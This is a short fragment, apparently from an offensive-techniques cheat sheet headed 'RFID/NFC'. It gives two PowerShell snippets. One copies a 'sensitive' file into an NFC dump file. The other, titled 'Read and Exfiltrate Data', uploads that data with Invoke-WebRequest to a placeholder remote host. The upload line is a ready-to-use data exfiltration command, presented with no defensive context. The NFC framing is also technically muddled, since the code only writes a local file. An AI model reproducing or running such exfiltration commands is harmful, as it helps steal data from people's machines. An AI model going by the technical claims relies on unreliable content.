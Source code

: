 #### RFID/NFC

Write Data to an NFC Tag:

```
$Data = [System.IO.File]::ReadAllBytes("C:\Temp\sensitivefile_copy.txt")
[IO.File]::WriteAllBytes("C:\Temp\nfc_data.mfd", $Data)
```

Read and Exfiltrate Data from an NFC Tag:

```
$Data = [IO.File]::ReadAllBytes("C:\Temp\nfc_data.mfd")
Invoke-WebRequest -Uri "http://<remote_ip>/upload" -Method Post -Body $Data
```